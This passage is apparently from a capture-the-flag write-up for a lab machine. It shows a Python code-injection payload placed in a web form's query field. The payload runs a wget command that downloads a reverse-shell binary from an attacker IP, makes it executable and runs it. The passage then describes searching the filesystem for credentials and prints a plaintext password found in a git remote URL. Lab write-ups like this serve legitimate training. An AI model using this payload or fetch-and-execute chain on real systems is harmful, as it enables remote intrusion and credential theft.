 We will execute the following command string 
```
wget http://10.10.14.145/reverse.elf -O /tmp/r.elf;chmod +x /tmp/r.elf;/tmp/r.elf
```

URL encode key characters

```
wget+http%3a//10.10.14.145/reverse.elf+-O+/tmp/r.elf%3bchmod+%2bx+/tmp/r.elf%3b/tmp/r.elf
```

And place it into the post data

```
engine=Accuweather&query='),__import__('os').system('wget+http%3a//10.10.14.145/reverse.elf+-O+/tmp/r.elf%3bchmod+%2bx+/tmp/r.elf%3b/tmp/r.elf')#
```

This results in a successful reverse shell as user 'svc' where we can retrieve flag user.txt

## svc -> root

### File enumeration leading to credentials

Upon enumeration of svc's home directory, we find unique name 'cody' within .gitconfig

```console
svc@busqueda:/home/svc$ cat .gitconfig
cat .gitconfig
[user]
        email = cody@searcher.htb
        name = cody
[core]
        hooksPath = no-hooks
```

Upon searching the filesystem for other files containing the text 'cody', we find file /var/www/app/.git/config

```console
svc@busqueda:/home/svc$ find / -type f -exec grep -l "cody" {} + 2>/dev/null

/var/lib/apt/lists/lk.archive.ubuntu.com_ubuntu_dists_jammy_universe_binary-amd64_Packages
/var/www/app/.git/config
```

The contents of the git config file contain what looks like credentials

```console
svc@busqueda:~$ cat /var/www/app/.git/config
[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
[remote "origin"]
        url = http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
        fetch = +refs/heads/*:refs/remotes/origin/*
[branch "main"]
        remote = origin
        merge = refs/heads/main
```
